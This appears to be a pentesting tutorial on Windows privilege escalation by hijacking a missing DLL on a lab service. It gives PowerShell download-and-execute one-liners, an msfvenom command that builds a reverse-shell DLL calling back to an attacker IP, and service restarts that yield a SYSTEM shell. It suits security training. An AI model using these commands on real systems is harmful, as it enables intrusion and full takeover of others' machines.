









DLL missing from the system
1. Use winPEAS to enumerate non-Windows services:
PS> (new-object System.Net.WebClient).DownloadFile("https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe", "$env:userprofile\desktop\winPEASany.exe");Invoke-Expression "$env:userprofile\desktop\winPEASany.exe quiet servicesinfo";Remove-Item -Path "$env:userprofile\desktop\winPEASany.exe";2. For each service that we have found
possible vulnerable to DLL Hijacking, we need to find which ones our user has stop and start access
example: in the image we see service “dllsvc”
PS> (new-object System.Net.WebClient).DownloadFile("https://web.archive.org/web/20071007120748if_/http://download.sysinternals.com/Files/Accesschk.zip", "$env:userprofile\desktop\Accesschk.zip");$ZippedFilePath = "$env:userprofile\desktop\Accesschk.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\accesschk.exe /accepteula -uvqc $env:username dllsvc";Remove-Item -Path "$env:userprofile\desktop\Accesschk.exe";Remove-Item -Path "$env:userprofile\desktop\Eula.txt";Remove-Item -Path "$env:userprofile\desktop\Accesschk.zip";3. Confirm manually that
binary that is executed from the service. Previously already found with winPEAS
Moreover discovery if the service is launched with
System privileges ◇ sc
4. Analyze the
binary that is executed from the service In a real engagement we should copy the
binary("C:\Program Files\DLL Hijack Service\dllhijackservice.exe") off the target host and onto the attacker machine(where we have the admin rights for analysis)
◇ Procmon:
https://download.sysinternals.com/files/ProcessMonitor.zip PS> (new-object System.Net.WebClient).DownloadFile("https://download.sysinternals.com/files/ProcessMonitor.zip", "$env:userprofile\desktop\file.zip");$ZippedFilePath = "$env:userprofile\desktop\file.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\procmon64.exe"; Remove-Item -Path "$env:userprofile\desktop\procmon64.exe";Remove-Item -Path "$env:userprofile\desktop\file.zip"; 1- Clear the current captures
 (Ctrl+X)
2- Open the Filter
(Ctrl+L) and add a new filter that "Display entries matching these conditions : Process Name, is, <binary>
 3- Deselect:
 Show Registry Activity,
Show Network Activity
4- Start the capture again
 (Ctrl +E)
Go to the terminal and start the <service> that we want to study (
example: dllsvc)
 5- Find the “NAME NOT FOUND” dll
 the “
NAME NOT FOUND” are associated with the dll not found(in our
example hijackme.dll).
Procmon show us that Windows goes through each directory in the
DLL Search order.
Windows also in C:\Temp directory, in this scenario because in our machine C:\Temp is in %PATH%
 where we have writable permissions!
PS> Get-Acl C:\Temp\ | Format-List
5. Generate a dll reverse shell with msfvenom, that has the same name of the original dll
root@kali:/# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.147.139 LPORT=53 -f dll -o hijackme.dll
6. Copy the dll generated on the target Windows machine
7. Set a listener for the reverse shell on the attacker machine
8. Stop and Start the targeted service
C:\> net stop <service>
C:\> net start <service
9. Now we should have received a SYSTEM shell on the attacker machine
